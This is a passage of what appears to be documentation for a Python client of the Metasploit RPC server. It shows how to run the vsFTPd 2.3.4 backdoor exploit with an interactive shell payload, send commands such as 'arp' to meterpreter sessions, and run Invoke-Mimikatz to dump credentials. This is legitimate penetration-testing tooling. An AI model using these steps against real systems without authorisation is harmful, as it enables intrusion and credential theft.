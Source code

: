 Run the same `exploit` object as before but wait until it completes and gather it's output:

```python
>>> cid = client.consoles.console().cid # Create a new console and store its number in 'cid'
>>> print(client.consoles.console(cid).run_module_with_output(exploit, payload='cmd/unix/interact'))
# Some time passes
'[*] 172.16.14.145:21 - Banner: 220 vsFTPd 2.3.4
[*] 172.16.14.145:21 - USER: 331 Please specify the password
...'

```

`client.sessions.session('1')` has the same `.write('some string')` and `.read()` methods, but running session commands and
 waiting until they're done returning output isn't as simple as console commands. The Metasploit RPC server will return
 a `busy` value that is `True` or `False` with `client.consoles.console('1').is_busy()` but determining if a
 `client.sessions.session()`  is done running a command requires us to do it by hand. For this purpose we will use a
 list of strings that, when any one is found in the session's output, will tell us that the session is done running
 its command. Below we are running the `arp` command within a meterpreter session. We know this command will return one
 large blob of text that will contain the characters `----` if it's successfully run so we put that into a list object.

 ```python
>>> session_id = '1'
>>> session_command = 'arp'
>>> terminating_strs = ['----']
>>> client.sessions.session(session_id).run_with_output(session_command, terminating_strs)
# Some time passes
'\nARP Table\n                  ---------------\n  ...`
```
Run a PowerShell script with output
```python
>>> session_id = '1'
>>> psh_script_path  = '/home/user/scripts/Invoke-Mimikatz.ps1'
>>> session = c.sessions.session(sessions_id)
>>> sessions.import_psh(psh_script_path)
>>> sessions.run_psh_cmd('Invoke-Mimikatz')
# Some time passes
'Mimikatz output...'
```

One can also use a timeout and simply return all data found before the timeout expired. `timeout` defaults to
Metasploit's comm timeout of 300s and will throw an exception if the command timed out. To change this, set
 `timeout_exception` to `False` and the library will simply return all the data from the session output it found before
 the timeout expired.
 ```python
>>> session_id = '1'
>>> session_command = 'arp'
>>> terminating_strs = ['----']
>>> client.sessions.session(session_id).run_with_output(session_command, terminating_strs, timeout=10, timeout_exception=False))
# 10s pass
'\nARP Table\n                  ---------------\n  ...`
```
